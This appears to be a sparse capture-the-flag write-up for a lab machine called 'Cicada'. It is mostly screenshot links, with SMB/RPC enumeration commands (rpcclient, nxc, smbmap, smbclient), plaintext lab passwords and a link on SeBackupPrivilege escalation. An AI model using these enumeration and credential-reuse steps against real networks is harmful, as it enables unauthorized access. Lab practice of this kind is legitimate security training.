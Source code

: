 ![](images-cicada/Pasted%20image%2020250227142056.png)

![](images-cicada/Pasted%20image%2020250227142408.png)
![](images-cicada/Pasted%20image%2020250227143025.png)

![](images-cicada/Pasted%20image%2020250227142859.png)

![](images-cicada/Pasted%20image%2020250227143222.png)

![](images-cicada/Pasted%20image%2020250227143323.png)

![](images-cicada/Pasted%20image%2020250228103514.png)

![](images-cicada/Pasted%20image%2020250227151831.png)
![](images-cicada/Pasted%20image%2020250227151853.png)
![](images-cicada/Pasted%20image%2020250227152211.png)

![](images-cicada/Pasted%20image%2020250227152321.png)

Cicada$M6Corpb*@Lp#nZp!8

rpcclient -U "" 10.129.233.79

![](images-cicada/Pasted%20image%2020250227153251.png)
cat SidTypeUsers.txt | awk '{print $6}' | tr '\\' ' ' | awk 'NF{print $NF}'

![](images-cicada/Pasted%20image%2020250227153949.png)

![](images-cicada/Pasted%20image%2020250227154912.png)

![](images-cicada/Pasted%20image%2020250227155303.png)

![](images-cicada/Pasted%20image%2020250227155852.png)

Valido:
nxc smb 10.129.233.79 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
nxc winrm 10.129.233.79 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
smbmap -H 10.129.233.79 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
smbmap -H 10.129.233.79 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' -r DEV
smbclient //10.129.233.79/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'


![](images-cicada/Pasted%20image%2020250227160603.png)

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force

emily.oscars:Q!3@Lp#M6b*7t*Vt
![](images-cicada/Pasted%20image%2020250227161115.png)
![](images-cicada/Pasted%20image%2020250227161834.png)
![](images-cicada/Pasted%20image%2020250227161920.png)
![](images-cicada/Pasted%20image%2020250227161951.png)

https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md

![](images-cicada/Pasted%20image%2020250227162352.png)

![](images-cicada/Pasted%20image%2020250227164807.png)

![](images-cicada/Pasted%20image%2020250227165020.png)
![](images-cicada/Pasted%20image%2020250227165045.png)
















